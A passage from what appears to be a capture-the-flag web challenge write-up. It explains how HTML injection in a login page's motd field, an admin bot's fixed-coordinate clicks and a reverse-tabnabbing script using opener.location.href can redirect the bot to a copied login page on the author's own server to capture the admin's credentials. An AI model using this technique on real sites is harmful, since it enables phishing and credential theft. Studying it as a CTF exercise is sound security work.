 Also, in the login page, we can insert the motd value we created, and HTML code can be inserted via this logic.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'none'; style-src 'self'; form-action 'self'" />
```
on the login page, CSP is set as above. the script can't be executed because default-src is none. also, since form-src is self, even if an arbitrary form tag is added, data is not received by the personal server.

```javascript
    await page.mouse.click(10, 10);

// (skip)
    await new Promise(r => setTimeout(r, 5000));
    await page.mouse.click(420, 280);
    await page.keyboard.type(user);
    await page.mouse.click(420, 320);
    await page.keyboard.type(pass);
    await page.mouse.click(420, 360);
```
but here's the strange part. The admin bot clicks once on coordinates (10,10). after that, click the coordinates (10, 10) above, and after 5 seconds, enter the account of admin in the login form and log in.

If we insert a personal server link at coordinates (10, 10) using the a tag, the admin bot will click the link and move to the personal server. Since there is an interval of 5 seconds here, it is enough time for all pages to be rendered.

Copy the login.html file, upload it to the personal server, and move the admin bot here to induce the admin account information to be transmitted to the personal server.

![](https://media.discordapp.net/attachments/962997469757702177/1087221071025012787/2023-03-20_12.48.14.png?width=1462&height=938)

I created login.html on my personal server as above.

```javascript
    try {
        if (url !== await page.evaluate(() => window.location.href)) {
            return { error: "Hey! Something's fishy here!" };
        }
    } catch (err) {
        return { error: "Hey! Something's fishy here!" };
    }
```
but in the admim bot, the logic to check the current origin is added as above. So we shouldn't go to the current page via the private server link. Open the private server in a new window using the blank option, and stay on the origin of the admin server for 1 second. but in this case, the personal server opens in a new window, so the log-in logic is just done on the problem server.

but we can use the `opener` object to redirect an existing window to a desired location. Since the `opener` object points to the window at the existing window that opened itself, the existing window can also be redirected to the private server by using opener.location.href on the private server.

```html
<!-- https://pocas.kr/re.html -->
<script>
    setTimeout(() => {opener.location.href='/login.html'}, 2000)
</script>
```
So I uploaded the redirect file as above
